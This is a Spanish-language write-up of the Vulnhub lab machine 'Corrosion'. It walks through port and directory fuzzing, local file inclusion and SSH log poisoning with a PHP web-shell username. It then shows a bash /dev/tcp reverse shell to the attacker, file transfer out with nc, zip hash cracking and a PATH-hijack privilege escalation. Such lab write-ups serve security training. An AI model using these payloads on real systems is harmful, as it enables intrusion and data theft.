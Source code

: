 ```yaml
---
title: Vulnhub - Corrosion
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'LFI to RCE', 'Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Corrosion/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Corrosion Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **LFI to RCE, Path Hijacking**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Corrosion/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Corrosion/02-versions.png)

c. Si visitamos el servicio web veremos la página por defecto de **Apache** por lo que haremos fuzzing de directorio con **wfuzz**

```bash
wfuzz -c -t 100 --hc=404  -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://<IP Corrosion>/FUZZ/'
--------------------------------------------------------------------------------------------------------------------------------------------
000012064:   200        16 L     59 W       947 Ch      "tasks"
000021781:   200        11 L     27 W       190 Ch      "blog-post"
```

* **/tasks/task_todo.txt**

    ```bash
    # Tasks that need to be completed

    1. Change permissions for auth log
    2. Change port 22 -> 7672
    3. Set up phpMyAdmin
    ```

* Ahora haremos fuzzing en el directorio **/blog-post**

    ```bash
    wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://<IP Corrosion>/blog-post/FUZZ/'
    -----------------------------------------------------------------------------------------------------------------------------------------------------
    000000030:   200        16 L     60 W       984 Ch      "archives"   
    000000150:   200        11 L     27 W       190 Ch      "uploads"
    ```

* Al visitar el directorio **archives** encontramos el archivo randylogs.php, pero, no veremos nada, por lo que haremos fuzzing de parámetros, para intentar leer el archivo **/etc/passwd**

    ```bash
    wfuzz -c -t 100 --hc=404 --hh=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://<IP Corrosion>/blog-post/archives/randylogs.php?FUZZ=/etc/passwd'
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
    000000727:   200        48 L     85 W       2832 Ch     "file"
    ```

d. Con el parámetro file podemos leer archivos de la máquina víctima. En la **Máquina Víctima** existe el usuario **randy**, pero, no tiene una clave id_rsa para conectarnos por SSH, por lo que veremos que podemos leer el archivo de logs del servicio SSH

* **URL:** **`http://<IP Corrosion>/blog-post/archives/randylogs.php?file=/var/log/auth.log`**

    ```bash
    Aug  6 04:55:31 corrosion dbus-daemon[598]: [system] Failed to activate service 'org.bluez': timed out (service_start_timeout=25000ms)
    Aug  6 09:56:03 corrosion CRON[1470]: pam_unix(cron:session): session opened for user root by (uid=0)
    Aug  6 09:56:03 corrosion CRON[1470]: pam_unix(cron:session): session closed for user root
    Aug  6 09:57:02 corrosion CRON[1475]: pam_unix(cron:session): session opened for user root by (uid=0)
    <SNIP>
    ```
    > Tenemos capacidad de lectura del archivo **auth.log** (SSH)

e. Ahora, inyectaremos código **php** en el nombre del usuario con el que nos autenticamos en el servicio SSH

```bash
atacante@kali> ssh '<?php system($_GET["cmd"]); ?>'@<IP Corrosion>
```

* Colocamos cualquier cosa como contraseña una sola vez, y ya seremos capaces de ejecutar comandos a través del LFI

* **URL:** http://<IP Corrosion>/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=ls%20-la

    ```bash
    <SNIP>
    drwxr-xr-x 2 root root 4096 Jul 29  2021 .
    drwxr-xr-x 4 root root 4096 Jul 29  2021 ..
    -rwxr-xr-x 1 root root  140 Jul 29  2021 randylogs.php
    <SNIP>
    ```

f. Para entablarnos una reverse shell urlencodeamos el payload

```bash
atacante@kali> echo -n "bash -c 'bash -i >& /dev/tcp/<IP Atacante>/4444 0>&1'" | jq -rRs @uri
bash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP Atacante>%2F4444%200%3E%261'
```

![](/assets/images/Vulnhub/Easy/Corrosion/03-payload.png)

* Nos ponemos en escucha con **nc** antes de enviar el payload

```bash
bash: no job control in this shell
www-data@corrosion:/var/www/html/blog-post/archives$ 
```

### Escalada de Privilegios 💹

a. Nos encontramos el archivo **user_backup.zip** en **/var/backups**, el cual nos transferimos a nuestra **Máquina Atacante**

```bash
atacante@kali> nc -lvnp 4445 > user.zip
```

```bash
www-data@corrosion:/var/backups$ nc 192.168.100.70 4445 < user_backup.zip
```

* El fichero está encriptado, así que conseguiremos el **hash** con **zip2john user.zip > hash** y lo romperemos con **john**

    ```bash
    atacante@kali> john hash --show                             
    !randybaby
    ```

b. Entre los ficheros veremos la contraseña del usuario **randy** y un script en **c**

```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("/usr/bin/date");

  system("cat /etc/hosts");

  system("/usr/bin/uname -a");
}
```
> El comando cat se llama de forma relativa por lo que es vulnerable a **Path Hijacking**

c. Nos convertimos en randy y vemos nuestros privilegios a nivel de sudoers

```bash
randy@corrosion:/var/backups$ sudo -l
<SNIP>
(root) PASSWD: /home/randy/tools/easysysinfo
```

* El fichero que podemos ejecutar como root es el mismo que vimos al descomprimir **user.zip**

    ```bash
    randy@corrosion:/tmp$ echo 'bash' > cat
    randy@corrosion:/tmp$ chmod +x cat 
    randy@corrosion:/tmp$ export PATH=/tmp:$PATH
    ```

d. Ahora solo ejecutamos el **binario** y seremos root

```bash
randy@corrosion:~/tools$ ./easysysinfo
Sun Aug  6 11:18:56 AM MDT 2023
root@corrosion:~/tools#
```